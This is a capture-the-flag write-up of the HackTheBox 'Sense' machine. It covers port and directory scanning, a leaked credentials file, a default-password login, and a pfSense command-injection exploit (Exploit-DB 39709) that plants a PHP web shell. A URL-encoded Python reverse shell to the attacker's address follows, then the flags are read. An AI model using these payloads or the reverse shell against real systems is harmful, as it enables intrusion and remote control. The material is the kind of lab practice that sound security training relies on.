

---
tags:
  - hack
  - linux
---
# HackTheBox: [Sense](https://app.hackthebox.com/machines/Sense)

```console
$ nmap -n -sCV -T4 -p1-65535 -v $t
[...]
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
443/tcp open  ssl/http lighttpd 1.4.35
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.35
|_http-favicon: Unknown favicon MD5: 082559A7867CF27ACAB7E9867A8B320F
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Issuer: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-10-14T19:21:35
| Not valid after:  2023-04-06T19:21:35
| MD5:   65f8:b00f:57d2:3468:2c52:0f44:8110:c622
|_SHA-1: 4f7c:9a75:cb7f:70d3:8087:08cb:8c27:20dc:05f1:bb02
|_http-title: Login
|_ssl-date: TLS randomness does not represent time
[...]
```

```console
$ ffuf -ic -v -w ~/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u https://${t}/FUZZ/
[...]

[Status: 200, Size: 6690, Words: 907, Lines: 174, Duration: 113ms]
| URL | https://10.10.10.60//
    * FUZZ: 

[Status: 200, Size: 7492, Words: 828, Lines: 229, Duration: 170ms]
| URL | https://10.10.10.60/tree/
    * FUZZ: tree

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 157ms]
| URL | https://10.10.10.60/installer/
| --> | installer.php
    * FUZZ: installer

[Status: 200, Size: 6690, Words: 907, Lines: 174, Duration: 115ms]
| URL | https://10.10.10.60//
    * FUZZ: 

:: Progress: [87651/87651] :: Job [1/1] :: 171 req/sec :: Duration: [0:07:17] :: Errors: 0 ::
```

Login POST request via <https://10.10.10.60/installer/installer.php>:

```text
POST /installer/installer.php HTTP/1.1
Host: 10.10.10.60
Cookie: cookie_test=1696448274; PHPSESSID=9e5037b81de2829cff23744bfc44b8a3; cookie_test=1696447775
Content-Length: 50
Cache-Control: max-age=0
Sec-Ch-Ua: "Brave";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Origin: https://10.10.10.60
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-Gpc: 1
Accept-Language: en-US,en
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://10.10.10.60/installer/installer.php
Accept-Encoding: gzip, deflate, br
Connection: close

usernamefld=admin&passwordfld=password&login=Login
```

```text
$ curl -ksi https://10.10.10.60/changelog.txt
HTTP/1.1 200 OK
Expires: Fri, 06 Oct 2023 21:12:41 GMT
Cache-Control: max-age=180000
Vary: Accept-Encoding
Content-Type: text/plain
Accept-Ranges: bytes
ETag: "1240586834"
Last-Modified: Sat, 14 Oct 2017 23:53:47 GMT
Content-Length: 271
Date: Wed, 04 Oct 2023 19:12:41 GMT
Server: lighttpd/1.4.35

# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

`ffuf` discovers a test file with the following information:

```text
$ curl -k https://10.10.10.60/system-users.txt
####Support ticket###

Please create the following user

username: Rohit
password: company defaults
```

The literal password of `company defaults` doesn't work. Eventually I hit on `rohit:pfsense`.



<https://www.exploit-db.com/exploits/39709>

NOTE: Exploit as published doesn't work, need to use `base64` instead.

```text
GET /status_rrd_graph_img.php?database=queues;cd+..;cd+..;cd+..;cd+usr;cd+local;cd+www;echo+"%3C%3Fphp+eval%28base64_decode%28%27ZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsg%27%29%29%3B%3F%3E">shell.php HTTP/1.1
Host: 10.10.10.60
Cookie: PHPSESSID=5214c6e9bfe4ab3f0e811ffa5c1f2012; cookie_test=1696795958
Sec-Ch-Ua: "Brave";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Gpc: 1
Accept-Language: en-US,en
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://10.10.10.60/status_rrd_graph.php
Accept-Encoding: gzip, deflate, br
Connection: close
```

The `shell.php` file on the host:

```console
# cat shell.php
cat shell.php
<?php eval(base64_decode('ZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsg'));?>
```

```console
$ echo ZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsg | base64 -d
echo system($_GET['cmd']); 
```

Reverse shell using `python2`, URL-encoded:

```console
$ curl -k https://10.10.10.60/shell.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.16.5%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27
```

```console
$ curl -k https://10.10.10.60/shell.php?cmd=cat%20/home/rohit/user.txt
872132[...]
```

```console
$ curl -k https://10.10.10.60/shell.php?cmd=cat%20/root/root.txt
d08c3[...]
```
